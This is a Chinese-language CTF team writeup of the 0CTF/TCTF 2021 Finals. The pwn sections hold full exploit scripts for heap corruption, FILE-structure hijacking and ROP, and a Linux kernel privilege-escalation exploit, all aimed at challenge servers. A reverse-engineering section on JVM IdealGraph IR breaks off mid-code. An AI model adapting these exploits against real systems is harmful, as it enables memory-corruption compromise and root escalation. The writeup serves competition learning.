

# 0CTF/TCTF 2021 Finals Writeup

## 前言

九月底和 r3kapig 的大师傅们一起打了国际比赛 TCTF/0CTF final，最终战队取得了世界排名第二，国内排名第一的好成绩，现将师傅们的 wp 整理如下，分享给大家一起学习进步~ 同时也欢迎各位大佬加入 r3kapig 的大家庭，大家一起学习进步，相互分享~ 简历请投战队邮箱：root@r3kapig.com




## PWN

### 0VM
实现了一个简单的虚拟机，只不过虚拟机的指令是做完快速傅里叶变换后的膜长拼接出来的。做逆快速傅里叶变换就能求出应有的输入。虚拟机操作的内存通过单链表方式组织，在取出之后并没有将 block 的 fd 指针位置清空，但是已经将该 block 对应 mask 置1，所以可以正常读取泄露该指针，从而计算出libc地址。同时还有逻辑问题，在向链表插入mask为0 的 block 地址时，是先将要插入的 block 地址对应的内存置空，然后再去检查该 block 对应的 mask，所以可以用该漏洞，对一个已经加入链表的 block 空间的内存进行部分写空字节。然后就是劫持链表伪造结构体，从而进行任意读写了。
```python
from pwn import *
import os

context.log_level = 'debug'

# io = process('./0VM')
# io = remote('121.5.102.199', 20000)
# io = remote('192.168.163.135', 20000)
libc = ELF('./libc-2.31.so')

rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
# lg = lambda s,addr		: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s,addr))
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, '\x00'))
uu64 = lambda data		: u64(data.ljust(8, '\x00'))

text ='''heapinfo
'''

def wrap(op, parm1, parm2, parm3):
	cmd = "./FFT "
	cmd += str(op) + " "
	cmd += str(parm1) + " "
	cmd += str(parm2) + " "
	for x in p64(parm3):
		cmd += str(ord(x)) + " "
	f = os.popen(cmd)
	res = f.readlines()
	final = "".join(res)
	# print final.encode('hex')
	sn(final)

def vm1_copy_data(idx1, idx2):
	wrap(1, idx1, idx2, 0)

def vm2_assi_data(idx, val):
	wrap(2, idx, 0, val)

def vm3_read_from_data(idx, val):
	wrap(3, idx, 0, val)

def vm4_write_to_data(idx, val):
	wrap(4, idx, 0, val)

def vm5_add_data(idx1, idx2):
	wrap(5, idx1, idx2, 0)

def vmf1_show_map(val):
	wrap(0xf, 1, 0, val)

def vmf2_alloc_map(val):
	wrap(0xf, 2, 0, val)

def vmf3_edit_map(val):
	wrap(0xf, 3, 0, val)


# io = process('./0VM')
io = remote('121.5.102.199', 20000)
# io = remote('192.168.163.135', 20000)
ru("  #\n\n")

for x in xrange(0x40):
	vmf2_alloc_map(0x82*0x10) 

vmf3_edit_map(0x82<<32 | 0)
vmf3_edit_map(0x82<<32 | 0x820+0x10)

vmf2_alloc_map(0x82*0x10)

vmf1_show_map(0x82<<32 | 0) 

libc_base = uu64(rn(8)) + 0x237d0
lg('libc_base')


mmap_addr = libc_base + 0x36f000
target_addr = mmap_addr + 8*0x83
vm2_assi_data(1, target_addr)
vm3_read_from_data(1, 0x82<<32 | 0x820*2+0x7c0)

vmf3_edit_map(0x82<<32 | 0x820*3)

vmf3_edit_map(0x82<<32 | 0x820+0x10-7) 

vmf3_edit_map(0x82<<32 | 0x820*4)

for x in xrange(4):
	vmf2_alloc_map(0x82*0x10)

io_file_jumps = libc_base + libc.sym['_IO_file_jumps']
vm2_assi_data(1, io_file_jumps)
vm3_read_from_data(1, 0x82<<32 | 0x820*4) 

vm2_assi_data(1, 0x0101010101010101)
vm3_read_from_data(1, 0x82<<32 | 0x820*4+0x10)

system_addr = libc_base + libc.sym['system']
vm2_assi_data(1, system_addr)
vm3_read_from_data(1, 0x83<<32 | 0+0x18)

stderr_addr = libc_base + libc.sym['_IO_2_1_stderr_']
vm2_assi_data(1, stderr_addr)
vm3_read_from_data(1, 0x82<<32 | 0x820*4) 

binsh = u64('/bin/sh\x00')
vm2_assi_data(1, binsh)
vm3_read_from_data(1, 0x83<<32 | 0) 

vm2_assi_data(1, 1)
vm3_read_from_data(1, 0x83<<32 | 0+0x20)

vm2_assi_data(1, 2)
vm3_read_from_data(1, 0x83<<32 | 0+0x28) 

wrap(6, 0, 0, 0)
# dbg(text)
# pause()

irt()
```

### Secure JIT II

OOB写直接ROP

```python
def exp():
    a = array(7)
    a[0] = 0x20192019
    a[10] = 0x421873 # ret
    a[11] = 0x421095 # pop rax
    a[12] = 59
    a[13] = 0x421872 # pop rdi
    a[14] = 0xa83ff0
    a[15] = 0x42159a # pop rsi
    a[16] = 0x6e69622f
    a[17] = 0x4b2582 # 0x4b24d2
    a[25] = 0x421872 # pop rdi
    a[26] = 0xa83ff4
    a[27] = 0x42159a # pop rsi
    a[28] = 0x68732f
    a[29] = 0x4b2582 # 0x4b24d2
    a[37] = 0x421872 # pop rdi
    a[38] = 0xa83ff0
    a[39] = 0x42159a # pop rsi
    a[40] = 0
    a[41] = 0x4026c1 # pop rdx
    a[42] = 0
    a[43] = 0x4ff807 #0x43430c # syscall

    # 0x4b2582 # 0x4b24d2 [rdi]=rsi; rsp+=0x38

```

### promise

https://mem2019.github.io/jekyll/update/2021/09/27/TCTF2021-Promise.html

### NaiveHeap
1. 漏洞点是任意地址内存中指针的一次free，可以free tache的结构体，之后就可以重复利用。
2. 重复利用tache结构体构造overlap。
3. 修改size获得unsorted bin，partial write unsorted bin的fd把main_arena的bitsmap当作head。
4. 一路往下写写到stdout，泄露libc，之后free_hook进行rop。
5. 上一部分往下覆盖路过一个指针，如果指针指向内容不能读就会segfault，可以通过写另一个 fake size，然后利用free往上面打一个tcache的结构体地址，这样保证了那个地址可读
```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# io = process('./chall', aslr=False)
# io = process('./pwn', aslr=False)
# io = remote('127.0.0.1', 4455)
io = remote('1.117.189.158', 60001)
# elf = ELF('./chall')
# libc = elf.libc

rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s,addr		: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s,addr))
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, '\x00'))
uu64 = lambda data		: u64(data.ljust(8, '\x00'))

text ='''heapinfo
'''

def Gift(offset):
	sl(str(0))
	sl(offset)

def Add_Del(size, content):
	sl(str(1))
	sl(str(size))
	sl(content)

Gift('-'+str(0xa0160/8))
Gift(str(0))


Add_Del(0x100, '')
Add_Del(0x200, '')
Add_Del(0x400, '')

paylaod = '\x00'*0x18
paylaod += p64(0x0001000000000000)
paylaod += '\x00'*0x18
paylaod += p64(0x0001000000000000)
paylaod += '\x00'*0xb8
paylaod += p16(0x72a0)
Add_Del(0x280, paylaod)
Add_Del(0x100, '\x00'*0xf0+p64(0)+p32(0x681))

paylaod = '\x00'*0x18
paylaod += p64(0x0000000100000000)
paylaod += '\x00'*0x18
paylaod += p64(0x0001000000000000)
paylaod += '\x00'*0xb0
paylaod += p16(0x73a0)
Add_Del(0x280, paylaod)
Add_Del(0xf0, '')
Add_Del(0x1000, '')

paylaod = '\x00'*0x18
paylaod += p64(0)
paylaod += '\x00'*0x18
paylaod += p64(0x0001000000000000)
paylaod += '\x00'*0x138
paylaod += p16(0x72a0)
Add_Del(0x280, paylaod)
Add_Del(0x200, '\x00'*0xf0+p64(0)+p32(0x101))

paylaod = '\x00'*0x78
paylaod += p64(0x0001000000000000)
paylaod += '\x00'*0x1f8
paylaod += p16(0x73a0)
Add_Del(0x280, paylaod)
Add_Del(0x400, '')


#
paylaod = '\x00'*0x78
paylaod += p64(0x0001000000000000)
paylaod += '\x00'*0x1f8
paylaod += p16(0x33f0)
Add_Del(0x280, paylaod)


paylaod = '\x00'*0x100
paylaod += p64(0) + p64(0x300)
Add_Del(0x400, paylaod)


paylaod = '\x00'*0x78
paylaod += p64(0x0000000100000000)
paylaod += '\x00'*0x1f0
paylaod += p16(0x3500)
Add_Del(0x280, paylaod)

paylaod = '\x00'*0x1a0
paylaod += p64(0xfbad1800)
paylaod += p64(0)*3
paylaod += p16(0x3300)
Add_Del(0x3f0, paylaod)

paylaod = '\x00'*0x58
paylaod += p64(0x0000000100000000)
paylaod += '\x00'*0x190
paylaod += p16(0x5b28)
Add_Del(0x280, paylaod)


sl('0'*0x1000)
base = uu64(rn(8)) - 0x212ca0
lg('base')

pause()


###############

# dbg()
# pause()


setcontext=0x7ffff7dc60dd-0x7ffff7d6e000+base
rdx2rdi=0x7ffff7ec2930-0x7ffff7d6e000+base
address=0x7ffff7f5cb30-0x7ffff7d6e000+base
rdi=0
rsi=address+0xc0
rdx=0x100
read=0x7ffff7e7f130-0x7ffff7d6e000+base
rsp=rsi
rbp = 153280+base
leave=371272+base
struct =p64(address)+p64(0)*3+p64(setcontext)
struct =struct.ljust(0x68, '\x00')
struct+=p64(rdi)+p64(rsi)+p64(0)*2+p64(rdx)+p64(0)*2+p64(rsp)+p64(read)

Add_Del(0x2f0, p64(rdx2rdi)+struct)
rdx = 0x000000000011c371+base# rdx+r12
sys = 0x7ffff7e7f1e5-0x7ffff7d6e000+base
rax = 304464+base
rdi = 158578+base
rsi = 161065+base
rcx = 653346+base
rax_r10 = 0x000000000005e4b7+base


rop = p64(rdi)
rop += p64(0xdddd000)
rop += p64(rsi)
rop += p64(0x1000)
rop += p64(rdx)
rop += p64(7)
rop += p64(0)
rop += p64(rcx)
rop += p64(0x22)
rop += p64(0x7ffff7e89a20-0x7ffff7d6e000+base)
rop += p64(rax)
rop += p64(0)
rop += p64(rdi)
rop += p64(0)
rop += p64(rsi)
rop += p64(0xdddd000)
rop += p64(rdx)
rop += p64(0x1000)
rop += p64(0)
rop += p64(sys)
rop += p64(0xdddd000)


sn(rop.ljust(0x100, '\x00'))

#context.log_level='debug'
sc='''
mov rax,1
mov rdi,1
mov rsi,0xdddd300
mov rdx,0x600
syscall
'''
fk='''
mov rdi,rax
mov rax,0
mov rsi,0xdddd300
mov rdx,100
syscall
mov rax,1
mov rdi,rax
syscall
'''

# flag-03387efa-0ad7-4aaa-aae0-e44021ad310a
# poc = asm(shellcraft.open(b'/home/pwn/'))+asm(shellcraft.getdents64(3, 0xdddd000 + 0x300, 0x600))+asm(sc)
poc = asm(shellcraft.open(b'/home/pwn/flag-03387efa-0ad7-4aaa-aae0-e44021ad310a'))+asm(fk)
sn(poc)

pause()

irt()
```


### BabaHeap
题目的漏洞点在于 delete 功能未清空 ptr 和 update 功能未检测 use 位，导致可以对释放后的 chunk 进行写入操作。
另外，题目的读取函数允许我们输入 `size - 1` 的内容，然后最后一位设置为 `\0`。

题目的麻烦点在于信息泄露，这里需要利用到读取函数的置 0 操作，另外题目提供的 release 版本的 libc，没有符号信息，只能凭感觉来调试。
每个 bin 入链了第一个 chunk 后，该 chunk 的 next 和 prev 也会指向 `bin_head - 0x10`，利用读取函数，我们能修改到已释放的 chunk 的 `next`，我们演示一下：
1. 我们释放掉一个 `0x1b0` 大小的 chunk，此时它的 next 和 prev 都指向 `bin_head - 0x10`：


2. 利用读取函数对该 chunk 进行写入操作：


    此时，我们的 chunk `next` 指向了另一个 bin，恰好是 `0x120` 的 chunk 所在的 `bin_head - 0x10` 的位置。
3. 我们释放掉 `0x120` 的 chunk，以使得 `0x00007ff51cb4bb00` 的位置有合法的 next 和 prev：


4. 我们再一次申请这个 `0x1b0` 的 chunk，那么`bin_head` 就会指向 `0x120` 的`bin_head - 0x10` 的位置。
5. 我们再申请一个 `0x1b0`，就可以将 chunk 分配到 `0x120` 的 `bin_head - 0x10` 的位置，从而控制住这一片 `mal` 区域。
6. 我们只要在 chunk 能够覆盖的区域内的 bin 中，入链一个 chunk，即可得到该 chunk 的地址，进而泄露 libc 基址，以及所有 chunk 地址、mal 地址等信息。

泄露了 libc 之后，剩下就是常规操作：

1. 利用 unbin 在 stdout 前伪造合法的 `next` 和 `prev`
2. 再利用 unbin，将 stdout 所在的 chunk **合法**地放入 bin->head 中
3. 提前布置好 rop_chain，申请 chunk 得到 stdout 并在合适的位置上填写**poc**实现 FSOP，劫持 rip 和 rsp 读取到 flag。

EXP：
```python
#encoding:utf-8
from pwn import *
import re

ip = '1.116.236.251'
port = 11124
local = 0
filename = './babaheap'
libc_name = './libc.so.1'

def create_connect():
	global io, elf, libc

	elf = ELF(filename)
	context(os=elf.os, arch=elf.arch)
	
	if local:
		io = process(filename)
		libc_name = './libc.so.1'

	else:
		io = remote(ip, port)
		libc_name = './libc.so.1'

	try:
		libc = ELF(libc_name)
	except:
		pass

cc = lambda : create_connect()
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
g = lambda x: gdb.attach(io, x)

r = lambda : io.recv(timeout=1)
rr = lambda x: io.recv(x, timeout=1)
rl = lambda : io.recvline(keepends=False)
ru = lambda x : io.recvuntil(x)
ra = lambda : io.recvall(timeout=1)
it = lambda : io.interactive()
cl = lambda : io.close()

def regexp_out(data):
    patterns = [
        re.compile(r'(flag{.*?})'),
        re.compile(r'xnuca{(.*?)}'),
        re.compile(r'DASCTF{(.*?)}'),
        re.compile(r'(WMCTF{.*?})'),
        re.compile(r'[0-9a-zA-Z]{8}-[0-9a-zA-Z]{3}-[0-9a-zA-Z]{5}'),
    ]

    for pattern in patterns:
        res = pattern.findall(data.decode() if isinstance(data, bytes) else data)
        if len(res) > 0:
            return str(res[0])

    return None

def allocate(size, content=b'callmecro'):
	sla(b'Command: ', b'1')
	sla(b'Size: ', str(size).encode())
	if size == len(content):
		sa(b'Content: ', content)
	else:
		sla(b'Content: ', content)

def no_send_allocate(size, content=b'callmecro'):
	sla(b'Command: ', b'1')
	sla(b'Size: ', str(size).encode())
	if size == len(content):
		s(content)
	else:
		sl(content)

def update(idx, size, content=b'callmecro'):
	sla(b'Command: ', b'2')
	sla(b'Index: ', str(idx).encode())
	sla(b'Size: ', str(size).encode())
	if size <= 1:
		return 

	if size == len(content):
		sa(b'Content: ', content)
	else:
		sla(b'Content: ', content)

def delete(idx):
	sla(b'Command: ', b'3')
	sla(b'Index: ', str(idx).encode())

def view(idx):
	sla(b'Command: ', b'4')
	sla(b'Index: ', str(idx).encode())
	ru(b': ')
	return ru(b'\n1. Allocate')[:-12]

def pwn():
	cc()
    
	allocate(0x1b0) # 0
	allocate(0x1b0) # 1
	
	allocate(0x100) # 2
	allocate(0x100) # 3

	allocate(0x120) # 4
	allocate(0x120) # 5
	allocate(0x120) # 6

	delete(0)
	update(0, 1)
	delete(2)
    
	allocate(0x1b0) # 0
	allocate(0x1b0) # 2
	delete(4)
	
	chunk_0x120 = u64(view(2)[0x18:0x20])
	log.success('No.4 chunk: 0x%x', chunk_0x120)
	libc.address = chunk_0x120 - 0xb38d0
	log.success('libc_addr: 0x%x', libc.address)

	data_segment = libc.address + 0xb0000
	stdout = libc.address + 0xb0280
	mprotect = libc.address + 0x41DC0

	log.success('stdout: 0x%x', stdout)
	my_chunk = libc.address + 0xb0b10
	log.success('my_chunk: 0x%x', my_chunk)
	chunk_6 = libc.address + 0xb3b50

	fake_chunk = stdout - 0x10
	# 任意写伪造 stdout 首部
	update(4, 0x11, p64(fake_chunk - 0x18) + p64(fake_chunk - 0x08))
	allocate(0x120) # 4
	
	delete(6)
	update(6, 0x30, p64(fake_chunk - 0x10) + p64(my_chunk+0x8))

	update(2, 0x150, p64(0)*3+p64(chunk_6)+p64(my_chunk+0x8))
	# 6 -----> 通过 unbin，将 stdout_FILE 送上 head 位置
	allocate(0x120)

	# mov     rdx, [rdi+30h];mov     rsp, rdx;mov     rdx, [rdi+38h];jmp     rdx
	stack_mig = libc.address + 0x78D24
	ret = libc.address + 0x15292

	pop_rdi = libc.address + 0x15291
	pop_rsi = libc.address + 0x1d829
	pop_rdx = libc.address + 0x2cdda
	pop_rax = libc.address + 0x16a16
	syscall = libc.address + 0x23720
	rop_chain = libc.address + 0xb3a20

	rop = flat([
		pop_rdi, data_segment,
		pop_rsi, 0x8000,
		pop_rdx, 7,
		mprotect, rop_chain+0x40
		])
	rop += asm(shellcraft.open('/flag'))
	rop += asm(shellcraft.read(3, data_segment, 0x100))
	rop += asm(shellcraft.write(1, data_segment, 0x50))

	update(5, 0x100, rop)

	poc = flat({
    	0x30: 1,		# f->wpos
    	0x38: 1,		# f->wend
    	0x40: rop_chain, 
    	0x48: ret, 
    	0x58: stack_mig,# f->write
    	0x70: 1,		# f->buf_size
	}, filler=b'\x00', length=0x120)

	# 7 -----> 分配到 stdout_FILE
	no_send_allocate(0x120, poc)

	log.success('flag: %s', regexp_out(ru(b'}')))
	# flag{use_musl_4ft3r_fr33}
	cl()

if __name__ == '__main__':
	pwn()
```


### kbrop

直接当作没有ksalr，然后爆破差不多几百次能出

```cpp
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <poll.h>
#include <pthread.h>
#include <errno.h>
#include <stdlib.h>
#include <signal.h>
#include <string.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <pthread.h>
#include <poll.h>
#include <sys/prctl.h>
#include <stdint.h>
void errExit(char* msg)
{
	puts(msg);
	exit(-1);
}

struct __attribute__((__packed__)) _d
{
	uint16_t size;
	uint8_t buf[0x100];
	uint64_t rbx;
	uint64_t rbp;
	uint64_t rop[0x100];
}d;

/*
cat /proc/kallsyms | grep proc_ioctl
commit_creds _copy_from_user
ffffffffb82909b0
ffffffff97a909b0
ffffffff982909b0
ffffffff9e6909b0
ffffffff8ea909b0
ffffffff88e909b0
ffffffffba2909b0
*/

uint64_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}

void spawn_shell()
{
	puts("spawn_shell");
	if(!getuid())
	{
		system("/bin/sh");
	}
	else
	{
		puts("[*]spawn shell error!");
	}
	exit(0);
}


int main()
{
	save_status();
	signal(SIGSEGV, spawn_shell);
	int fd;
	fd = open("/proc/chal",0);

	memset(d.buf, 'A', sizeof(d.buf));
	size_t i = 0;
	d.rop[i++] = 0xffffffff81001619; // pop rdi
	d.rop[i++] = 0;
	d.rop[i++] = 0xffffffff81090c20; // prepare_kernel_cred
	d.rop[i++] = 0xffffffff81000210; // mov rdi, rax
	d.rop[i++] = 0xffffffff810909b0; // commit_creds
	d.rop[i++] = 0xffffffff81b66d10; // swapgs
	d.rop[i++] = 0xffffffff8102984b; // iretq
	d.rop[i++] = (uint64_t)spawn_shell;
	d.rop[i++] = user_cs;
	d.rop[i++] = user_rflags;
	d.rop[i++] = user_sp;
	d.rop[i++] = user_ss;
	d.rop[i++] = 0x13372019;
	d.size = 0x110 + i * sizeof(uint64_t);
	puts("exploit!");
	ioctl(fd,0x666,&d);
	return 0;
}

int main2(int argc, char const *argv[])
{
	int fd;
	fd = open("/proc/chal",0);

	memset(d.buf, 'A', sizeof(d.buf));
	size_t i = 0;
	d.size = 0x100;
	puts("exploit!");
	ioctl(fd,0x666,&d);
	return 0;
}
```
```python
from pwn import *
import base64
context(log_level='info', arch='amd64')

BIN = "./fs/exp"

def exec_cmd(sh, cmd):
	sh.sendline(cmd)
	sh.recvuntil("$ ")

if __name__ == "__main__":
	# sh = ssh(host="159.75.250.50", user="ctf", password="tctf2021").run("/bin/sh")
	sh = process("./run.sh")
	with open(BIN, "rb") as f:
		data = f.read()
	print("upload")
	# sh.upload_data(data, "/home/ctf/exp")

	total = 0
	while True:
		if len(sh.recvuntil("~ $ ", timeout=5)) == 0:
			print("Root!")
			sh.sendline("cat /dev/sda")
			sh.interactive()
		encoded = base64.b64encode(data)
		once_size = 0x200
		count = 0
		for i in range(0, len(encoded), once_size):
			sh.sendline("echo -n \"%s\" >> benc" % (encoded[i:i+once_size].decode()))
			# print (float(i)/len(encoded))
			count += 1
		sh.sendline("cat benc | base64 -d > exp")
		sh.sendline("chmod +x exp")
		sh.sendline("./exp")
		for i in range(0, count + 2):
			sh.recvuntil("~ $ ")
		total += 1
		print(total)

	# context(log_level='error')
	sh.interactive()
```


## Reverse
### bali

一个 Java 的逆向题，但是并没有给 Java 字节码，而是给了 openjdk 的中间语言 IdealGraph 的表示。

大概长这样：

```
 1874  LoadI  ===  377  1875  1281  [[ 1871 ]]  @int[int:>=0]:exact+any *, idx=6; #int !orig=1288,1127,710,[1171],[967] !jvms: Task::f @ bci:192 (line 25)
 1870  LoadI  ===  377  1871  1283  [[ 1869 ]]  @int[int:>=0]:exact+any *, idx=6; #int !orig=1282,710,[1171],[967] !jvms: Task::f @ bci:192 (line 25)
 1871  StoreI  ===  377  1875  336  1874  [[ 1869  1870 ]]  @int[int:>=0]:exact+any *, idx=6;  Memory: @int[int:20]:NotNull:exact[0] *, idx=6; !orig=1286,1125,729,[1140] !jvms: Task::f @ bci:193 (line 25)
 1868  LoadI  ===  377  1869  1474  [[ 1867 ]]  @int[int:>=0]:exact+any *, idx=6; #int !orig=1568,1315,1127,710,[1171],[967] !jvms: Task::f @ bci:192 (line 25)
```

IdealGraph 的资料并不太多，可以从 openjdk 的 wiki 找到一点点资料，像[这里](https://wiki.openjdk.java.net/display/HotSpot/C2+IR+Graph+and+Nodes) 有为数不多的总体性资料。

（如果了解 JVM 的 IR 的历史就会知道，事实上 JVM 的 IR 设计（openjdk），也就是 Ideal Graph 的设计和 v8 的 sea of nodes 是同一个设计者，两者在整体设计上有许多相通之处。）

这个 IR 是一个图结构，每一行对应一个node ，左边是 node 自己的 ID ，"===" 右侧的 3 个数字是 input ，中括号中的是 output 。
可以从 openjdk 的[源码](https://github.com/openjdk/jdk/tree/master/src/hotspot/share/opto) 找到每一个 node 的具体语义，可以从代码和注释中大概看明白。

然而本体逆向的难点主要在于，整个图结构是比较大的，如果直接看，很难看明白图的结构。好在，高等级版本的 JDK ，IR dump 出来有行数信息，如本题就有，所以可以通过行数信息将每一行拆开来看，这样就可以让逆向的难度稍微降低一点。

具体的每一个 node 的语义就不赘述了，可以通过代码自行看明，这里只简单列举几个重要的点：

- 类型在 node 里已经指明了，例如 "LoadI" 就是 int 类型
- 为方便分析，这种 IR 的设计将内存副作用直接表示在了 IR 当中以避免指针分析复杂难做：Load/Store 的节点的输出是一个由该操作进行之后所形成的内存状态。举例来说，Store 节点的参数分别是："控制流参数，内存状态，地址，值"，例如`Store C, MEM, a+100, 100` （伪代码）得到了一个新的内存状态，在这个状态中，相当于将原来的 `MEM` 状态（初始状态，或是另一个 Store 产生的内存状态）中的 `a+100` 地址对应的值替换为了 100 。这个新的内存状态又可以用于 Store 或是 Load 。通过这样的方式，内存的副作用就完全被涵盖在了 IR 中，可以直接看出，但是对于我们来说，逆向时，错误的内存状态可能导致错误的逆向结果。举例来讲：`a[10] = 200; c = a[10]; a[10] = 100; x = c;` 这时，如果只看语句顺序，在 IR 中，`x = a` 依赖的内存状态是 `c = a` 之前的状态，但是语句顺序却在之后，所以 `x` 应该是 200 而不是 100。（好在，本题里边居然没用到这个点，所以让实际情况变得更简单了）
- IR 也带有 SSA 的性质，有 Phi node。循环、if 将会生成 Phi node。
- merge mem其实不管也不怎么影响，还挺复杂的。。。


为逆向方便，我的方法是，按照每一行，将图画出来，这样会得到一个一个的子图，这样一行一行翻译。由于题目本身量比较小，所以这样的方法十分可行。

可视化的脚本如下：

```python
with open('mylog.txt', 'r') as f:
    content = f.read()

which_line = 'line 20' # 这里一行一行的修改，开头两行 用 "#" 号注释掉

graph = []

def ignore(line):
    included = [
        'Add',
        'Shift',
        'Store',gg
        'Load'
    ]

    equals = []

    return False

    for x in included:
        if x in line:
            return False

    for x in equals:
        if x == line:
            return False

    return True

table = {}

for line in content.splitlines():
    if line.startswith('#'):
        continue

    if len(line.strip()) == 0:
        continue

    orig_line = line
    line = line.split(']]')[0]

    part1 = line.split('===')[0]
    print(line)
    part2 = line.split('===')[1]

    num, op = part1.split()


    ins, out = part2.split('[[')

    def to_int(x):
        if x == '_':
            return None
        else:
            return int(x)

    if 'CallStaticJava' in line:
        op = 'CallStaticJava: {}'.format(orig_line.split('#')[1].split('c=')[0])
        part2 = part2.split('(')[0] + part2.split(')')[1]

    ins, out = part2.split('[[')
    if 'returns' in line:
        ins, out = part2.split('[[')[0].split('returns')
    if 'exception' in line:
        ins, out = part2.split('[[')[0].split('exception')
    if 'ConL' in orig_line:
        con_value = orig_line.split('#')[1]


    ins = list(map(to_int, ins.split()))
    out = list(map(to_int, out.split()))

    if ignore(op):
        continue


    table[num] = op
    if 'ConL' in orig_line:
        table[num] = op + ':{}'.format(con_value)

    if not which_line in orig_line:
        continue

    print(orig_line)

    graph.append((num, op, ins, out))

with open('log.dot', 'w') as f:
    f.write('digraph {')
    printed = []
    for g in graph:
        num, op, ins, out = g
        f.write('{} [label="{} {}"]\n'.format(num, num, op))
        printed.append(num)

    out_printed = []

    for g in graph:
        num, op, ins, out = g
        for o in out:
            if o:
                f.write('{} -> {};\n'.format(num, o))
                out_printed.append((num, o))

        for i in ins:
            if i:
                if not i in printed:
                    f.write('{} [label="{} {}"]\n'.format(i, i, table[str(i)]))
                if not (i, num) in out_printed:
                    f.write('{} -> {};\n'.format(i, num))
                    out_printed.append((i, num))


    f.write('}')
        
```

之后通过 `dot log.dot -Tpng > xx.png` 就可以画出图然后一行一行翻译。

其中比较难的在于两个被 unroll 的循环，由于是常量级的循环（循环的次数固定且不算大），被 unroll 了，如果对优化的算法足够敏感应该能看出来。否则可能会影响一点（会觉得例如 24 行的操作很奇怪，看不懂）。
如果实在看不出来是循环 unroll 问题其实也不大，按照 addr 的规律一个一个推就好了。这个点好在，因为没有出现之前提到的用 MEM 的状态去确定是哪个变量，所以按照顺序翻译不会出现问题，否则的话翻译过程会复杂不少，需要关注每一个内存状态。

比较可惜的是，由于个人疏忽，将 "-256" 想当然写成了 "256"（0xff），导致这个题本来在第一天基本就做到最后一步的，一直卡住，耽误了大量时间。

最后翻译的结果：

```java
    static boolean f(String inp) { // thread_local + 280
        if (inp != null) {
            if (inp.length() != 21) {
                return false;
            } else if (!inp.substring(0, 5).equals("0ops{")) {
                return false;
            } else if (inp.charAt(20) == 125) // 189
                return false;
            int[] a = new int[20];
            for (int i = 5; i < 20; i++) { // 1027 - 307 loop
                a[i - 5] = inp.charAt(i);
            }
            int[] b = new int[20];
            for (int i = 1; i < 1234; i++) { // 1033 - 3032 loop; i = phi(1033, 46, 746)
                for (int j = 0; j < 14; ++j) {// int[] wtf27 = ?; //  442 loop unrolling?
                    b[j] = a[j + 1];// b[4] = a[5]; /* 1920 */ b[5] = a[6]; /* 1917 */ b[6] = a[7]; /* 1915 */ b[7] = a[8]; /* 1907 */ b[8] = a[9]; /* 1905 */ b[9] = a[10]; /* 1903 */ b[10] = a[11]; /* 1901 */ b[11] = a[12]; /* 1897 */ b[12] = a[13]; /* 1895 */ b[13] = a[14]; /* 1893 */ b[14] = a[15]; /* 1890 */ b[15] = a[16]; /* 1882 */ b[16] = a[17]; /* 1877 */ b[17] = a[18]; /* 1875 */ // 1217
                }// guess: loop unrolling, 16-18
                int id1918 = b[1] & b[0]; //int id1918 = b[1] & b[0];
                int wtf20_temp = id1918 + b[3]; int wtf20 = (wtf20_temp - ((wtf20_temp + ((wtf20_temp >> 31) >>> 24) & -256))); /* 1908, 591 */
                int id1891 = (b[5] | b[7]) ^ wtf20;
                int id1888 = id1891 + b[10] + b[11]; int id1883 = id1888 - ((((id1888 >> 31) >>> 24) + id1888) & -256);
                int temp1872 = a[0] ^ id1883;
                for (int j = 0; j < 14; ++j) {// unrolling?
                    a[j] = a[j + 1];// a[4] = a[5]; /* 1871 */ a[5] = a[6]; /* 1869 */ /* ... */ a[17] = a[18];
                }// guess: loop unrolling 24 - 26
                a[14] = temp1872; /* 1844 */


            } /* 997: phi 1844(745) */
